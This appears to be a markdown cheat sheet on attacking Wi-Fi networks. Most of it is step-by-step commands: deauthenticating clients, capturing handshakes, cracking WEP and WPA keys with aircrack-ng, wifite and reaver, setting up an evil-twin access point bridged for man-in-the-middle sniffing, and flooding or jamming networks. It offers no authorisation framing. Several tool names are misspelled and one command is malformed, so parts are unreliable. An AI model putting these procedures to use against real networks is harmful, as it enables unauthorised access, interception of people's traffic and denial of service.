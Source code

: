 # Wifi - Attack on Wireless Networks

## Introduction

**Handshake**

When we try to connect to a network, our computer goes to the access point (box) which will respond with a challenge. Our computer responds to the box with this encrypted challenge and the security key. The box receives confirmation that the device knows the key thanks to the encryption of the first challenge and therefore informs the device that for it communication is possible and encrypts the computer's challenge. The computer receives this message. It checks the encryption in turn. If both devices agree, then the communication is successfully established.


![handshake](./img/handshake.png)

## Tools

### Aircrack-ng

This is a suite of wireless network monitoring software whose main use is to break WEP and WPA keys in WIFI networks.
It is a rework of the discontinued aircrack software.

**Some features**:
```sh
aircrack-ng # static WEP and WPA-PSK key breaker
airdecap-ng # decrypt captured WEP/WPA files
aidriver-ng # allows you to patch drivers, which is useful for packet injection
airplay-ng # packet injection program
airmon-ng # enables/disables the monitor mode of a wifi card. In this mode the wifi card is placed as an observer of the network
airodump-ng # packet capture program 802.11
```

### Kismet

This is a free network detection software, sniffer and intrusion detection system for 802.11 wireless networks.

It works with cards that support monitor mode and any 802.11 protocol.

## Configuration

```sh
iwconfig # see its wifi configs
iwconfig [mapName] txpower 30 # increase its txpower by 30
airmon-ng start [mapName] # wifi card in monitor mode => indicate that you want to intercept all packets on the network
```

## Preparation of the equipment

Wifi card connected to the network
```sh
airmon-ng check kill # kill airmon related processes
airmon-ng start [interfaceName] # start monitor mode

airodump-ng [nomInterfaceMonitor] # scan for available wireless networks
```

```sh
# Ability to restart the service (instead of restarting the computer)
systemctl start wpa_supplicant.service && NetworkManager
```

## Bypassing HSSI (Hidden Service Set Identifier)

HSSI, consists in hiding the ESSID.

To obtain the ESSID, 2 possible methods:
* sniff the WI-FI environment and wait for a client associated with a network to connect and capture this association
* De-authenticate a client and force it to re-associate with the Access Point and capture the association


```sh
aireplay-ng -0 5 -a [HiddenMacNetworkAddress] [InterfaceMonitoringName]
# -0 to indicate that we will de-authenticate
# 5 to indicate that we are sending 5 packets
```

NB: remember to do the capture at the same time with airdump.


## Attacking WEP (Wireless Equivalent Privacy)

Quickly replaced by WPA (Wifi Protected Access)

### Initialization Vector (IV)

The RC4 base - stream Cipher Introduce a random element in the encrypted data.
VI-24 bit is too small to prevent repetition. Key can be recovered in 3 min (usually).


### Manual attack

Wifi card connected in monitoring mode!

```sh
airodump-ng [interfaceMonitor] # search for vulnerable wifi networks (BSSID recovery)
airodump-ng -c 11 -w [captureFilename] -b [BSSID] [interfaceMonitor] # check for passing Beacons
aireplay-ng -1 0 -a [BSSID] [interfaceMonitor] # send false authentication
aireplay-ng -3 -b [BSSID] [interfaceMonitor] # sending packets to send Beacons
aircrack-ng [captureFilename] # will attempt to crack the network (need as many IVs as possible)
```

### Automated attack

```sh
wifite # Power (the bigger is the number, the closer is the network) | To attack: CTRL+C (stop the analysis and start the interaction)
```
The password is also displayed in a crack.csv file

```sh
wifi cracker # GUI => everything is automated, just need to configure the bases. Different types of attacks are possible.
```


## Attacking WPA and WPA2 Wifi Protected Access


* WPA and WPA2 are Wi-Fi security protocols, succeeding WEP and solving the problems present on it
* They use a PSK (pre-shared key) to secure the communication. PSK must be random (13 char minimum)
* Most common attack => bruteforce
* If configured in enterprise mode using a RADIUS authentication server, WPA is almost impossible to crack


With the wifi card connected in monitoring mode!
```sh
airodump-ng [interfaceMonitor] # see the available networks you want to attack
airodump-ng -bssid [BSSID] --channel 1 --write [capturefile] [interfaceMonitor] # start listening for handshakes in an output file (capture)
aireplay-ng --deauth 1 -a [BSSID] [interfaceMonitor] --ignore-negative-one # start de-authentication packets

aircrack-ng [capturefile] -w /usr/share/wordlists/fern-wifi/common.txt
```


The `revear` attack is more concerned with testing PINs and may take longer.
```sh
airodump-ng [interfaceMonitor]
reaver -i [interfaceMonitor] -b [BSSID] -c [n°Channel] -vv
```

## Cloning access points

Manipulate the user's packets and retrieve the handshakes and keys by pretending to be the network the user is used to.

Wifi card connected and in monitoring mode.
```sh
airbase-ng -c [channelNumber] -e "AccessName" [interfaceMonitor] # create a fake access point

airbase-ng -c [channelNumber (less than default channel)] -a [BSSID] -e "ESSIDname" -L -W1 [interfaceMonitor] # copy an access point
# then wait for someone to connect
airodump-ng [interfaceMonitor] --bssid [BSSID] -w [capturefile] # create a capture file
airecrack-ng [capturefile] # crack the key (need as many IVs as possible)


# set up a MITM

airbase-ng --essid [netname=mitm] -c [channelNumber] [interfaceMonitor] # create an access point. This also creates an intermediate interface 'at0' for bridging.
brctl addbr mitm-bridge # bridgeControl tool to create bridges
brctl addif mitm-bridge eth0
brctl addif mitm-bridge at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
echo 1 > /proc/sys/net/ipv4/ip_forward # enable port forwarding

# Wait for someone to connect.
# Run wireshark to sniff traffic.
# We have access to all the user's requests whether they are on a phone or a computer.
```



## DOS attack

Dos attack by de-authenticating or directly causing denial of service.
Wireless networks are extremely susceptible to DOS. In addition, it is difficult to locate the attackers.

Create a DOS by flooding the network with authentication packets.

```sh
aireplay-ng -0 5 -a [BSSID] [interfaceMonitor] # tool to flood
# -0 to indicate that these are de-authentication packets
# 5 to say that we are sending 5. If you put 0, it's a continuous stream of packets

websploit
show modules # show available modules
use wifi/wifi_jammer
show options
set interface [interfaceMonitor] # check that the options are correctly set (interface, bssid, essid)
run # run the attack
```

